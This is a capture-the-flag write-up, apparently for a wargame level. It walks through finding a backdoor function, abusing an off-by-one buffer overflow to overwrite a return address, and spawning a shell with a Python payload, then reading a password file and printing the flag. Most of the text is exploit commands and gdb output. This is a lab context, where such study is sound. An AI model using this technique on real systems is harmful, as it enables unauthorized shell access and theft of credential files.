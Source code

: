 We have a program that asks for a username and a message.

We can see that there is a function called `secret_backdoor`
A quick disas:

```
gdb ./level07
disas secret_backdoor
```

shows there is a call to system

```
0x00000000000008b9 <+45>:	callq  0x740 <system@plt>
```

When looking at the source code we can see we have a small window for buffer overflow in the function `set_username`
The same buffer is passed as parameters to both function set_username and set_msg. Both functions use it:
set_username writes up to 41 bytes (from p + 140 to p + 180)
set_msg reads a large fgets of 1024 and then copies with strncpy up to p + 180 bytes.

We can then override the value stored at p + 180 with the 41st byte of our username.

```
(python -c 'print "X" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9" + "\n"' ; cat) | ./level09
```

We obtain a segfault:
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
i f
Stack level 0, frame at 0x7fffffffe5c8:
rip = 0x555555554931 in handle_msg; saved rip 0x4138674137674136
called by frame at 0x7fffffffe5d8
Arglist at 0x6741356741346741, args:
Locals at 0x6741356741346741, Previous frame's sp is 0x7fffffffe5d0
Saved registers:
rip at 0x7fffffffe5c8

saved rip offset is 200

lets redirect to => 0x55555555488c (secret_backdoor) and then pass it the parameter we want : "/bin/sh" (through its fgets)

```
(python -c 'print "X" * 40 + "\xff" + "\n" + "X" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n" + "/bin/sh" + "\n"' ; cat) | ./level09
```

cat /home/users/end/.pass

flag

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
